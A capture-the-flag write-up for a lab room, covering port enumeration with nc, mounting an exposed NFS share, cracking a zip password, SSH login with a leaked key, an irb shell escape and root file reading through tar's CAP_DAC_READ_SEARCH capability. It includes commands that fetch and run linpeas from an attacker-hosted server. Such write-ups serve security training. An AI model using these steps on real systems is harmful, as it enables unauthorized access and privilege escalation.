# CTF: The Binding of Cyber

![Difficulty: Medium](https://img.shields.io/badge/difficulty-medium-%23ffcc00)
![Contest Date: 2024-05-14](https://img.shields.io/badge/contest%20date-2024--05--14-informational)
![Category: FTP](https://img.shields.io/badge/category-ftp-%237159c1)
![By: Alexandre](https://img.shields.io/badge/by-Alexandre-%23f9a03c)
![alt text](img/thebindingofcyber.png)

## Description

> Try not to lose yourself in this devilish room

## Write-up

Flag: flag.txt
UserFlag: user.txt
RootFlag: root.txt

## Flag Solutions

### Flag

We have a message in TryHackMe who said : 
```
Start at port 109 and enumerate your way.
Good luck.
```

We can use `nc` to connect to the target machine on port 109.

```
> nc $IP 109
I am lost, can you find me ? I'm usually on the top 100 ports
```

We can use `nc` to connect to the target machine on the top 100 ports.

```
for i in {1..100};do nc <IP> $i;echo "";done 
```

We have an emoji with information about the next port to connect to. (I replaced the information with `#` to avoid spoilers)

```
550 12345 ⠄⠄⠄⠄⠄⠄⠄⠄⠄⠄⠄⠄⠄⠄⠄⠄⠄⠄⠄⠄⠄⠄⠄⠄⠄⠄⠄⠄⠄⠄

550 12345 ⠄⠄⠄⠄⠄⠄⠄⠄⠄⣀⣤⣴⣶⣶⣶⣶⣶⣶⣤⣄⣀⠄⠄⠄⠄⠄⠄⠄#⠄

550 12345 ⠄⠄⠄⠄⠄⢀⣠⣶⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣶⣄⠄⠄⠄⠄#⠄

550 12345 ⠄⠄⠄⢀⣴⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣷⣆⠄⠄⠄⠄

550 12345 ⠄⠄⢀⣾⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣧⠄#⠄

550 12345 ⠄⠄⣾⣿⡿⠟⡋⠉⠛⠻⣿⣿⣿⣿⣿⣿⣿⣿⣿⡿⠛⠉⠉⠙⠻⣿⣿⣇#⠄

550 12345 ⠄⢠⣿⡏⢰⣿⣿⡇⠄⠄⢸⣿⣿⣿⠿⠿⣿⣿⣿⠁⣾⣿⣷⠄⠄⠘⣿⣿#⠄

550 12345 ⠄⠸⣿⣇⠈⠉⠉⠄⠄⢀⣼⡿⠋⠄⠄⠄⠄⠙⢿⣄⠙⠛⠁⠄⠄⢠⣿⣿#⠄

550 12345 ⠄⠄⢿⣿⡇⠄⠄⠄⣶⣿⣿⢁⣤⣤⣤⣤⣤⣤⠄⣿⣷⠄⠄⠄⠈⢹⣿⡟⠄⠄

550 12345 ⠄⠄⠈⢿⡗⠄⠄⢸⣿⣿⣿⣶⣶⣶⣶⣶⣶⣶⣶⣿⣿⠄⠄⠄⠄⢸⡟⠄#⠄

550 12345 ⠄⠄⠄⠄⠳⡀⠄⢸⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⠄⠄⠄⠄⠌⠄⠄#⠄

550 12345 ⠄⠄⠄⠄⠄⠄⠄⠈⢿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣤⠄⠄⠄⠄⠄⠄#⠄

550 12345 ⠄⠄⠄⠄⠄⠄⠄⠄⠉⠙⠻⠿⠿⣿⣿⣿⣿⠿⠿⠛⠉⠄⠄⠄⠄⠄⠄⠄#⠄

550 12345 ⠄⠄⠄⠄⠄⠄⠄⠄⠄⠄⠄⠄⠄⠄⠄⠄⠄⠄⠄⠄⠄⠄⠄⠄⠄⠄⠄⠄#⠄
```

We can use `nc` to connect to the target machine on port <PORT>

```
nc $IP <PORT>
It remember ! I put the flags in my chest, it's on a nfs share, how do i list them ?
```

We can use `showmount` to list the nfs share.

```
showmount -e $IP
Export list for <IP>:
<DIR> *
```

We can use `mount` to mount the nfs share.

```
mkdir /mnt/nfs
mount -t nfs $IP:<DIR> /mnt/nfs
```

We can use `ls` to list the content of the nfs share.

```
ls /mnt/nfs
chest.zip
```

We can use `zipinfo` to list the content of the zip file.

```
zipinfo chest.zip
Archive:  /mnt/nfs/chest.zip
Zip file size: 4824 bytes, number of entries: 8
drwxr-xr-x  3.0 unx        0 bx stor 21-Dec-02 15:46 home/
drwxr-xr-x  3.0 unx        0 bx stor 21-Dec-02 15:45 home/isaac/
drwx------  3.0 unx        0 bx stor 22-Nov-14 17:10 home/isaac/.ssh/
-rw-------  3.0 unx     3369 TX defN 21-Dec-02 15:41 home/isaac/.ssh/id_rsa
-rw-r--r--  3.0 unx       10 TX stor 21-Dec-02 15:41 home/isaac/.ssh/hint.txt
-rw-r--r--  3.0 unx      736 TX defN 21-Dec-02 15:41 home/isaac/.ssh/authorized_keys
-rw-r--r--  3.0 unx       35 TX stor 22-Nov-14 17:10 home/isaac/.ssh/flag.txt
-rw-r--r--  3.0 unx      736 TX defN 21-Dec-02 15:41 home/isaac/.ssh/id_rsa.pub
8 files, 4886 bytes uncompressed, 3320 bytes compressed:  32.1%
```
We can try to extract the zip file.

```
unzip /mnt/nfs/chest.zip -d /mnt/nfs
```

It's password protected. We can use `zip2jhon` to crack the password.

```
zip2john /mnt/nfs/chest.zip > /tmp/chest.hash
john /tmp/chest.hash --wordlist=rockyou.txt
```

We have the password. We can use `unzip` to extract the zip file.

```
unzip /mnt/nfs/chest.zip -d /mnt/nfs
```

We can use `cat` to see the content of the `flag.txt` file.

**_Well done! You found the flag!_**

### User Flag

We have an `id_rsa.pub` file in the `.ssh` directory. We can try to connect to the target machine using the `id_rsa` file.
```
ssh -i /mnt/nfs/home/isaac/.ssh/id_rsa.pub isaac@$IP
ssh_exchange_identification: read: Connection reset by peer
```

We have an `hint.txt` file in the `.ssh` directory. We can use `cat` to see the content of the file.

```
cat /mnt/nfs/home/isaac/.ssh/hint.txt
```

It's said `<PORT>-<PORT>`

We can try to connect to the target machine ssh with a script to test all the ports. It's long i know

```bash
HOST="<IP>"
USER="isaac"

for PORT in {5000..6500}; do
  ssh -o ConnectTimeout=2 -p $PORT $USER@$HOST exit
  if [ $? -eq 0 ]; then
    echo "Connexion réussie sur le port $PORT"
  else
    echo "Connexion échouée sur le port $PORT"
  fi
done
```

We have a message when we found the good port.

So we can connect to the target machine with the good port.

```
ssh -i /mnt/nfs/home/isaac/.ssh/id_rsa isaac@$IP -p <PORT>
```

We come to the target machine in an `irb` shell. We go to GtfoBins to see how we can escape from the shell.

We can use `exec` to escape from the shell.

```
exec "/bin/bash"
```
We can use `cat` to see the content of the `user.txt` file.

**_Well done! You found the user flag!_**

### Root Flag

For the root we can use `LinPEAS` to see if we can find something interesting.

So in the attacker machine 
```bash
curl -L https://github.com/peass-ng/PEASS-ng/releases/latest/download/linpeas.sh > linpeas.sh
chmod +x linpeas.sh
sudo python3 -m http.server 80
```

In the target machine
```bash
cd /tmp
wget http://$IP/linpeas.sh
chmod +x linpeas.sh
./linpeas.sh
```

We found vulnerabilities in the capabilties of the user `root`.

```
Capabilities:
Files with capabilities (limited to 50):
/usr/lib/x86_64-linux-gnu/gstreamer1.0/gstreamer-1.0/gst-ptp-helper cap_net_bind_service,cap_net_admin=ep
/usr/bin/ping cap_net_raw=ep
/usr/bin/mtr-packet cap_net_raw=ep
/usr/bin/tar cap_dac_read_search=ep
/snap/core20/2015/usr/bin/ping cap_net_raw=ep
```

```
CAP_DAC_READ_SEARCH
CAP_DAC_READ_SEARCH enables a process to bypass permissions for reading files and for reading and executing directories.
```

We can use `tar` to get the root flag.
```
tar -cvf flag.tar /root/root.txt
cat root/root.txt
```

We can use `cat` to see the content of the `flag.tar` file.

**_Well done! You found the root flag!_**